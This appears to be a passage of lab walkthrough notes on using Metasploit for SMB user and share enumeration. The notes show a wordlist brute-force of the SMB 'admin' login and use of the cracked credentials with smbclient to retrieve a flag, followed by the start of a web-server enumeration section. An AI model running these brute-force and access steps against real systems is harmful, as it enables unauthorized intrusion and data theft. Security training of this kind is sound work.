 ```
msf5> use auxiliary/scanner/smb/smb_enumusers
msf5> run
```

The users are `john` `elie` `aisha` `shawn` `emma` `admin`.

```
msf5> use auxiliary/scanner/smb/smb_enumshares
msf5> set showfiles true
msf5> run
```

```
msf5> use auxiliary/scanner/smb/smb_login
msf5> set smbuser admin
msf5> set pass_file /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
msf5> run
```

The credentials are `admin:password`.

```
root@attackdefense> smbclient -L \\\\192.64.76.3\\ -U admin
```

```
root@attackdefense> smbclient \\\\192.64.76.3\\public -U admin

smb> cd secret
smb> get flag
smb> exit

root@attackdefense> cat flag
```

### Web server enumeration

* A web server is software that is used to serve webiste data on the web.
* Web servers utilize HTTP to facilitate the communication between clients and the web server.
* HTTP is an application layer protocol that utilizes TCP port 80 for communication.
* We can utilize auxiliary modules to enumerate the web server version, HTTP headers, brute-force directories and much more.
* Examples of popular web servers are Apache, Nginx and Microsoft IIS.

```
root@attackdefense> service postgresql start && msfconsole

msf5> workspace -a web_enum
msf5> setg rhosts 192.227.166.3
msf5> search type:auxiliary name:http
msf5> use auxiliary/scanner/http/http_version
msf5> run
```

```
msf5> use auxiliary/scanner/http/http_header
```
